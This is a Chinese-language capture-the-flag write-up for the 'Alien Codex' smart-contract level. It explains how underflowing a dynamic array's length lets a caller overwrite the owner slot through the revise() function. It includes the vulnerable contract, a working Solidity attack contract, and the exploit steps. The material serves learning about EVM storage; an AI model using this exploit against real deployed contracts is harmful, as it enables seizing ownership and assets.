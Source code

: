 # Alien Codex
Alien Codex這一關要求我們取得這個合約的ownership，主要考察了對於array storage的相關知識，讓我們先看代碼

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```
## 代码分析
首先我們可以知道AlienCodex這個合約繼承了Ownable這個合約，而在Ownable當中，我們會儲存一個address。當A合約繼承了B合約時，B合約當中需要儲存的變量會在storage中以slot0開始儲存，其次才是輪到A合約中的狀態變量。所以我們可以知道，AlienCodex這個合約中的owner變量存在storage的slot0，接下來是一個boolean contact,因為一個slot有32 bytes，而owner是一個address，只佔20 bytes，contact佔1 bytes，所以contact也會存在slot0中。而codex作為一個bytes32的array,是一個dynamically-sized array,所以會在slot1中以uint256的方式存儲它的長度，並且在後面的slot中按照順序存儲這個array本身，起始位置在slot keccak256(1)。

當我們去查看目前的codex的長度時，使用web3.eth.getStorageAt(instance,1)，我們獲得了0x0000000000000000000000000000000000000000000000000000000000000000，這意味著目前這個array的長度為0。記得storage的總共的slot數量為2^256個，從slot0開始到slot2^256-1,如果我們可以讓這個dynamically-sized array的長度為2^256，那麼就可以使其最後的那個元素overflow到slot0，那麼我們就可以修改存儲在slot0的owner變量了。

首先我們需要將contact設置為true，這樣才能使用record,retract和revise這三個函數。之後我們需要使用retract，使得codex的長度從0 underflow至2^256。這樣只要我們再使用revise修改在array overflow到slot0這個位置的元素，就可以做到修改owner的效果。

現在我們需要確定是array的哪一個位置在slot0，array的存儲位置規則為：
假如array存在的storage slot p,那麼array的index i元素的位置為 keccak256(p)+i。
如今我們已知keccak256(1) + i = 2^256, 那麼i = 2^256 - keccak256(1)。使用revise修改後，便可以成功取得這個合約的ownership。

## 攻擊代碼
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IAlienCodex {
    function revise(uint i, bytes32 _content) external;
}

contract Attack {
    function attack(address _target) public {
        unchecked{
            uint index = uint256(2)**uint256(256) - uint256(keccak256(abi.encodePacked(uint256(1))));
            IAlienCodex(_target).revise(index, bytes32(uint256(uint160(msg.sender))));
        }   
    }
}

## 攻擊過程
1. 調用make_contact()，再調用retract()。
2. 部署Atttack合約，傳入關卡的合約地址，調用attack(),完成任務。

